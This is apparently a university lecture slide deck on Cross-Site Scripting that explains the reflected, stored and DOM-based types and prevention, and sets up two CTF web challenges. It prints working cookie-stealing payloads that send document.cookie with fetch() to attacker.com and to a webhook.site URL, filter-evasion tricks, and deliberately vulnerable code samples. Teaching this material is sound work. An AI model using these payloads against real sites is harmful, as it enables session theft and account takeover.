








<!-- .slide: data-state="front hide-controls" --> <div id="title">Cross Site Scripting (XSS)</div> <div id="subtitle">Data Privacy and Security</div> <div id="date">Data Science and Management (DASMA)</div> --- ## XSS in a Nutshell <div class="content-center"> <p></p> </div> --- ## What is a XSS Vulnerability? <div class="content-center"> **XSS (Cross-Site Scripting)** is a vulnerability where an attacker **tricks a website into running their code in another user's browser**. <br/> It works in three steps: - The attacker **injects HTML or JavaScript** into the website (e.g. via a comment, search box, or URL parameter) - The website **shows that content to other users** - The victim's browser **runs it** (because it can't tell attacker code from legitimate site code) <br/> **Why it matters:** the attacker's code runs **as the victim** on that site → it can steal their session cookie, perform actions on their behalf, or modify what they see. </div> --- ## XSS Example: the Attack <div class="content-center"> Goal: steal the victim's session cookie <br/> 1. A user logs into a website → the browser stores a session cookie 2. An attacker **injects** malicious code into the page 3. When the victim visits the page: - The code runs in their browser - The code **sends their cookie to the attacker's server** 4. The attacker can now impersonate the victim (log in as them by using the stolen cookie) <br/> </div> --- ## XSS Example: the Payload <div class="content-center"> Payload used by the attacker: ```python <script> fetch("https://attacker.com/steal?cookie=" + document.cookie); </script> ``` <br/> - script tags are used to tell the browser the following is JavaScript to execute - `fetch()`: sends a request to a server - `https://attacker.com/...`: attacker’s server receiving the stolen data - `document.cookie`: the user’s cookies (session data) <br/> <div class="alert alert-warning">When this run on the victim's browser, it reads their session cookie and sends it to the attacker.</div> </div> --- ## Types of XSS <div class="content-center"> XSS is classified into three types, based on **how the payload reaches the victim's browser**: <br/> - **Reflected** - Input comes from the request (e.g., a link) <br> - **Stored** - Input is saved on the server (e.g., database) <br> - **DOM-based** - Happens entirely in the browser </div> --- ## Reflected XSS <div class="content-center"> <div class="alert alert-note">In reflected XSS, the malicious payload <b>travels in the URL</b> itself - the server reflects it back into the page, and the browser runs it.</div> <br/> - **The bug**: the site inserts data from the HTTP request into the page without sanitization - **The delivery**: the victim is tricked into visiting a crafted URL (phishing, redirecting, …) - **The impact**: the script can alter the page, steal session cookies, or leak sensitive data <br/> **Key property**: the payload isn't stored anywhere - it exists only in the single crafted request. </div> --- ## Reflected XSS Example (1) <div class="content-center"> <p></p> </div> --- ## Reflected XSS Example (2) <div class="content-center"> <p></p> </div> --- ## Stored XSS <div class="content-center"> <div class="alert alert-note">In stored XSS, the malicious payload is <b>saved on the server and served</b> to every user who loads the affected page, turning one injection into many victims.</div> <br/> - **The bug**: the site stores user-submitted content and later renders it without sanitization - **The delivery**: the attacker plants the payload once (e.g., as a forum comment, blog post, or profile field); every visitor to that page runs it automatically - **The impact**: same as reflected, but affecting every visitor <br/> **Key property**: one injection, many victims; The payload persists and fires for everyone who loads the page. </div> --- ## Stored XSS Example (1) <div class="content-center"> <p></p> </div> --- ## Stored XSS Example (2) <div class="content-center"> <p></p> </div> --- ## DOM-based XSS <div class="content-center"> <div class="alert alert-note">In DOM-based XSS, the page's <b>own JavaScript takes attacker-controlled data</b> and uses it unsafely e.g., by inserting it directly into the page as HTML, or passing it to a function that runs code.</div> <br/> - **The bug**: the site's JavaScript reads untrusted input and uses it in a dangerous way, without sanitization - **The delivery**: same as reflected i.e., the victim is tricked into visiting a crafted URL - **The impact**: same as any XSS i.e., page manipulation, cookie theft, ... <br/> **Key property**: the payload may never reach the server → server-side defenses can't see it or block it. </div> --- ## Reflected vs DOM-based <div class="content-center"> Both examples: user searches for something, the page shows *"You searched for: …"*. - Attacker's URL: `site.com/search?q=<script>alert(1)</script>` <br/> **REFLECTED**: the server builds the HTML <br/> ```python @app.route("/search") def search(): q = request.args.get("q") return f"You searched for: {q}" # ← unsafe ``` <br/> - The server takes `q` from the URL and pastes it directly into the HTML it sends back. - The browser receives a page that **already contains** `<script>alert(1)</script>` and runs it. </div> --- ## Reflected vs DOM-based <div class="content-center"> **DOM-based**: the browser's JavaScript builds the HTML <br/> ```javascript const q = new URLSearchParams(location.search).get("q"); //unsafe: document.getElementById("out").innerHTML = "You searched for: " + q; ``` <br/> - The server sends the same HTML to everyone, without ever receiving the payload. - The page's own JavaScript reads `q` from the URL and injects it into the DOM. <br/> <div class="alert alert-hint"><b>The difference:</b> in reflected XSS the <b>server</b> is vulnerable (it built bad HTML); In DOM-based XSS the <b>client-side JavaScript</b> is vulnerable (the server is innocent).</div> </div> --- ## Comparing the Three Types <div class="content-center"> | | Reflected | Stored | DOM-based | |---|---|---|---| | **Where the payload lives** | In the URL | On the server | In the URL | | **Who processes it** | Server | Server | Browser (page's JS) | | **Who is the victim** | One user per link | Every visitor to the page | One user per link | | **Needs social engineering?** | Yes (click the link) | No (just visit the page) | Yes (click the link) | | **Server sees the payload?** | Yes | Yes | Not necessarily | </div> --- ## XSS Prevention <div class="content-center"> Core rule: **never insert untrusted input into a page as-is**; It must be encoded or sanitized first, based on *where* it's being inserted (the rules differ for HTML body, attributes, JavaScript, URLs, and CSS). <br> - **Don't escape manually**: it's easy to get wrong, and the correct encoding depends on context - **Use dedicated libraries**: OWASP ESAPI, Microsoft AntiXSS, DOMPurify (client-side) - **Prefer templating engines with auto-escaping built in:** Jinja (Python), Mustache/Smarty (PHP), ERB (Ruby), … - **Against DOM-based XSS:** use **Trusted Types**, a browser feature that forces inputs to pass through a sanitizer <br> **Key idea:** escaping is **context-sensitive** i.e., the same input needs different treatment inside `<p>…</p>` vs. inside `<img src="…">` vs. inside `<script>…</script>`. </div> --- ## Evading XSS Filters (1) <div class="content-center"> <div class="alert alert-warning">Naive filters try to block dangerous strings...but attackers can work around them.</div> <br/> <br/> **Trick 1: recursion bypass** <br> Suppose a filter strips `<script` from input: <br> - `<script src="…">` → `src="…"` ✓ (filter worked) - `<scr<scriptipt src="…">` → `<script src="…">` ✗ (filter *created* the payload) <br> **Fix:** the filter must loop until nothing changes. </div> --- ## Evading XSS Filters (2) <div class="content-center"> **Trick 2: `<script>` isn't required** <br> XSS doesn't need a `<script>` tag; Any HTML that can run JS will do. <br/> <div class="columns-container columns-center"> <div class="col"> If the site injects input into an attribute: ```html <a href="INJECTION_HERE"> ``` </div> <div class="col"> Attacker sends: `#" onclick="alert(1)`: ```html <a href="#" onclick="alert(1)"> ``` </div> </div> <br> Clicking the link runs the attacker's code; Works without having to rely on script tags! <br> **Takeaway:** blocklists don't work; Encode/escape properly instead. </div> --- ## Evading XSS Filters (3) <div class="content-center"> **Trick 3: wrong-context encoding** <br> Encoding `<` and `>` stops HTML injection e.g., `<` gets encoded as `<` (or `\x3C`), so `<script>` can never become a real tag. - This only helps if the input actually lands in HTML. - If it lands inside a JavaScript string, you don't need tags to execute malicious code... <br/> <div class="columns-container columns-top"> <div class="col"> If the site inserts input into a JS string like this: ```javascript const input = "INJECTION_HERE"; ``` </div> <div class="col"> Attacker sends: `"; alert(1); //` to escape it: ```javascript const input = ""; alert(1); //"; ``` </div> </div> <br> The `"` closes the string, `alert(1)` runs as code, and `//` comments out the leftover syntax. <br> **Takeaway**: escaping must match the context where input is inserted. </div> --- ## JavaScript Cheatsheet <div class="content-center"> | Method / Property | What it does | Category | |--------------------------------|--------------------------------------|----------| | document.cookie | gets the user’s cookies | Get | | document.body.innerHTML | reads or modifies page content | Get/Execute | | localStorage.getItem() | reads stored data | Get | | fetch() | sends data to a server | Send | | new Image().src | sends data via an image request | Send | | eval() | executes JavaScript from a string | Execute | | element.innerHTML | injects HTML into the page | Execute | <br/> Example payloads: - **Steal cookies:** `<script>fetch("https://attacker.com?c=" + document.cookie)</script>` - **Send data via image:** `<img src="x" onerror="fetch('https://attacker.com?c='+document.cookie)">` - **Redirect user:** `<script>window.location = "https://attacker.com"</script>` - **Basic test:** `<script>alert(1)</script>` </div> --- ## Webhook <div class="content-center"> <div class="alert alert-note"><a href="https://webhook.site/">https://webhook.site/</a></div> <br/> <p></p> </div> --- ## Webhook <div class="content-center"> What is webhook.site? - It is a tool that gives you a **temporary URL** - It lets you **see HTTP requests sent to that URL in real time** <br/> Why is it useful? - It acts like a **request catcher** so you can inspect traffic - Helps **visualize what data** a browser sends (cookies, headers, ...) <br/> Example payload: <br> `<script>fetch("https://webhook.site/2f64f621-ade5-4d71-a019-e3200cef69d1?c=" + document.cookie)</script>` </div> --- <!-- .slide: data-state="break-blue hide-controls" --> # CookieWorldOrder <div class="content-center"> Web Challenge 14 </div> --- ## CookieWorldOrder - Reconnaissance <div class="content-center"> <p></p> <br/> <br/> What can we observe? The challenge... - presents a chat interface where the user can exchange messages with another user; - messages sent by the user are reflected back into the page. </div> --- <!-- .slide: data-state="break-blue hide-controls" --> # Pasteurize <div class="content-center"> Web Challenge 15 </div> --- ## Pasteurize - Reconnaissance <div class="content-center"> <p></p> <br/> <br/> What can we observe? The challenge... - presents a note-taking interface where users can submit text and receive a shareable link to the note; - after submitting, the note is displayed at `/note/<id>` with a Report button to share it with the admin. </div>